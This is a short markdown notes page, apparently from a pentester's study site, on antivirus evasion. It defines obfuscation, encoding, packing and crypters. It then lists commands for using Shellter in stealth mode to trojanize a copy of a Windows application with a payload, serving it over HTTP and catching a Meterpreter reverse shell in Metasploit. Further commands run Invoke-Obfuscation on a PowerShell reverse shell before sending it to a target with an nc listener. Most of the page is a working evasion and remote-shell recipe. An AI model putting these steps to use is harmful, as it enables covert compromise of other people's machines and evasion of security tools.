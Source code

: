 ```yaml
---
title: 'Obfuscation'
description: 'Evasion with Shellter, obfuscation PowerShell Code.'
pubDate: 'May 12 2023'
slug: 'trip/obfuscation'
---
```


- **_Obfuscation:_** Reorganizes code in order to make it harcer to analyze or RE.

- **_Encoding:_** Is a process involving changing data into a new format using a scheme. Enconding is a reversible process; data can be encoded to a new format and decoded to its original format.

- **_Packing:_** Generate executables with new binary structure with a smaller size and therefore provides the payload with a new signature.

- **_Crypters:_** Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub.

```bash
apt install shellter -y

# Add 32 architecture
dpkg --add-architecture i386

apt install wine32

# Its gonna replace origin app thats why we create new one
# Create a copy of viewwer windows app

cd /usr/share/windows-resources/shellter/

wine shellter.exe
# select 1
# stealth mode? y
# select payload 5
# select port, host

# listening a server on pwd of app
python3 -m http.server 80

# METASPLOIT
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set PORT

# EXECUTE app on windows and get a reverse shell.
```

***PowerShell Code Obfuscation.***

```bash
# PayloadAllTheThings

git clone https://github.com/danielbohannon/Invoke-Obfuscation.git

# Example with this file
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation

# Copy a powershell reverse-shell from payloadallthethings

SET SCRIPTPATH /home/printer/pwsh.ps1
# obfuscation all the ast nodes
AST
ALL
1
# Transfer payload to target
# and set up a listener nc
```

- [Ip converter](https://www.silisoftware.com/tools/ipconverter.php)